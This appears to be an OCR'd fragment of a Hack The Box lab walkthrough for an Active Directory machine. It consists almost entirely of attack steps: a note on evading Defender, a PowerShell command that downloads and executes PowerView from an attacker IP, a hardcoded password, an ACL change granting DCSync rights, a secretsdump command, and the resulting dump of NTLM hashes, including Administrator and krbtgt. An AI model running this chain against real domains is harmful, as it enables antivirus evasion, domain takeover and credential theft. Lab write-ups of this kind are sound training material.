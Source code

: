 The Bypass-4MSI command is used to evade defender before importing the script

IEX(new-object net.webclient).downloadstring("http://10.10.14.6:9090/powerview.ps1")

$pass =  convertto-securestring "password123" -asplain -force

$cred = new-object system.management.automation.pscredential('htb\xmbomb', $pass)

Add-ObjectACL -PrincipalIdentity xmbomb -Credential $cred -Rights DCSync


 secretsdump.py htb/xmbomb@10.10.10.161 -outputfile ntlm-hashes-dc


htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
xmbomb:7602:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::